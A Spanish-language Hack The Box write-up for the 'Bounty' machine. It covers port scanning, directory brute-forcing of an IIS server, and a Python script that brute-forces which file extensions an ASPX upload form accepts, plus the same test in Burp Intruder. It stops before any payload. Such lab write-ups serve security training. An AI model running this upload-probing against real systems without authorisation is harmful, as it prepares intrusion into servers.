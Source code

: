 # Bounty-HTB

## NMAP

Esta maquina solo tiene el puerto 80 abierto.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d99534a-d8d7-4b37-8450-fee111059940)

## Dirbuster y WFUZZ

Para esta maquina ya nos dimos cuenta que nos enfrentamos a un ISS 7.5 buscamos archivos .aspx, .asp, .config.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html,asp,aspx,config


```
Siempre que estes probando algo creo que es bueno ver hacktricks.

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services

Se encontro una pagina trasfer.aspx

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/39bea836-ef1f-41c3-a8c0-303c2e772704)


Siempre que tenemos este tipo de cosas hay que probar que extenciones permiten las que nos permitirian ejecutar comandos son .asp, aspx y .config ( esta yo no sabia). Otra ruta que se encontro es:

> http://10.129.18.176/UploadedFiles


## Python (probando extenciones que acepta)

Para probar extenciones se uso el script de s4vitar.

```python

#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests, re

# Diccionario A Utilizar
# /usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt

transfer_url='http://10.129.137.104/transfer.aspx'

def def_handler(sig, frame):
	print("\n\n[!] Saliendo....\n")
	sys.exit(1)

#CTRL+ C
signal.signal(signal.SIGINT, def_handler)
#time.sleep(10)

burp = { 'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):
	# Vamos a arrastrar sesiones
	#r = requests.get(transfer_url)
	s = requests.session()
	r = s.get(transfer_url)
	#pdb.set_trace()
	viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"',r.text)[0]
	#print(viewState)
	#pdb.set_trace()
	eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"',r.text)[0]
	#print(eventValidation)
	post_data = {
	'__VIEWSTATE': viewState,
	'__EVENTVALIDATION': eventValidation,
	'btnUpload': 'Upload'
	}
	fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}
	r = s.post(transfer_url,data=post_data,files= fileUploaded) # proxies=burp
	#print(r.text)
	if "Invalid File. Please try again"  not in r.text:
		#print ("La Extencion es correcta")
		log.info("La extension %s valida " % extension)




if __name__ == '__main__':
	f = open("/usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt", "rb")

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")

	time.sleep(2)

	for extension in f.readlines():
		#pdb.set_trace()
		extension= extension.decode().strip()
		p1.status("Probando con la extension %s" % extension)
		uploadFile(extension)


```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/1c58bea9-bc86-456c-9c6e-eb1277585549)


## Burpsuite

Se pueden probar las extenciones validas con el intruder.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/0dae7f01-379a-43f8-973c-29fce098dab0)

Agregamos ahi en donde esta la extencion y nos vamos a payloads.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c5088d8c-fe65-4b72-8480-69a6ffde08aa)


Al lanzarlo tenemos un problema lo esta URL encodeando necesitamos arreglar eso o no funciona.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/ba912ed8-fa64-4bba-ba6e-6bbd1dd4aa02)

Quitamos esa opcion. Si queremos que nos saque una frase cosa que veo ya inecesario solo fijate en el length

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c85ba7ee-5e0c-4567-9eb0-7a704f16e08e)


















































































